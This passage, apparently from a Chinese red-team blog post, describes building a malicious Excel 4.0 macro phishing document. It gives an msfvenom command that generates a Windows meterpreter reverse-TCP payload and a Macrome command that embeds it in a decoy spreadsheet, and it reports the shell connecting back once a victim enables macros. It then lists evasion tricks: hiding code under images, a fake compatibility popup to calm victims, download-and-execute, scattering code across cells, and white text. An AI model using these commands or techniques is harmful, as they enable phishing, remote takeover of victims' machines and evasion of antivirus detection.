 ``msfvenom -p windows/meterpreter/reverse_tcp lport=192.168.8.109 lport=4444 -b '\x00' --arch x86 --platform windows -f raw > payload32.bin`



使用工具执行，该命令会使用默认模板写入并混淆。

``Macrome.exe build --decoy-document decoy_document.xls --payload payload32.bin --payload64-bit payload64.bin`



当受害者点击启用宏就会上线。上线后如果关闭excel，那么shell就会断开。

另外使用64位监听器去接收会引起excel的崩溃，因为测试环境是64位的，但是EXCEL安装的是32位的。

![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211125165600218.png)

![image-20211126103156851](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211126103156851.png)



32位监听器正常上线

![image-20211126104307230](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211126104307230.png)

VT查杀率 21/59

![image-20211126113606802](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211126113606802.png)

网上工具自动生成还是存在查杀率较高的问题，如果想要做到免杀效果好的话，还是需要自己尝试去编码，开发开发工具。

## bypass

因为XLM的构造特点，如Auto_Open、数量贼多的char函数等等，某些AV还不管三七二十一的给你误报，所以bypass还是比较困难的。

现在这个钓鱼方法已经工具化了，往往都集成了各种编码，加密。这里只介绍几种从攻击团伙的样本中学到的一些姿势。

1、图片遮盖

将宏代码隐藏在图片下，图片可以是提示启用宏的引导性内容

2、交互式消息弹窗

=IF(ALERT("此文档与您的服务程序不兼容，是否还要继续查看此文档？",1),,CLOSE(TRUE))

代码是顺序执行的，所以该执行的也不受影响，通过交互式弹窗的方式让鱼儿放松警惕

![image-20211119155546875](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20211119155546875.png)

3、下载在转储

从网上下载恶意代码，存储到某个位置。然后再调用执行

4、代码随意分布

将代码拆分保存在各个分散的单元格中

5、更改字体颜色

修改字体颜色为白色
